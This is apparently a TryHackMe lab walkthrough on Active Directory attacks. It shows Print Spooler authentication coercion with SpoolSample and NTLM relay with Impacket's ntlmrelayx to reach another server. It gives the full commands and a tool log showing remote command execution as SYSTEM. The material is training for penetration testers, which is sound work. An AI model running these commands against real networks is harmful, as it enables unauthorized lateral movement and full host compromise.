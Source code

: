 **Note: This attack can be unstable. Abusing the Print Spooler service may  cause it to crash, and a callback is not always guaranteed. For this  reason, the previous task already provided you with the permissions  required to continue. However, understanding authentication relays and  how to force them is essential for AD exploitation. As such, the steps  to perform such an attack are provided below. You can decide to give it a go, but a callback is not guaranteed. If it does not work, move on to  the next task and perhaps explore this again at the end of your room  journey.**

We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay. It is a C# exploit but has already been compiled for you and stored in the `C:\Tools\` directory on THMWRK1. We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox and then [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2.

The first step is to set up the NTLM relay. On our AttackBox, we can use the following:

- **Terminal**      

```shell
thm@thm:~# python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we  should specify the IP instead. With the relay listening, we can now  coerce THMSERVER2 to authenticate to us. In an SSH terminal on THMWRK1,  execute the following:

- **Terminal**      

```bash
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

Your attacker IP should correspond with your tunX interface for the network. If all goes well, you should have received an authentication attempt  and a relay to THMSERVER1. 

- **Terminal**      

```bash
 thm$ python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
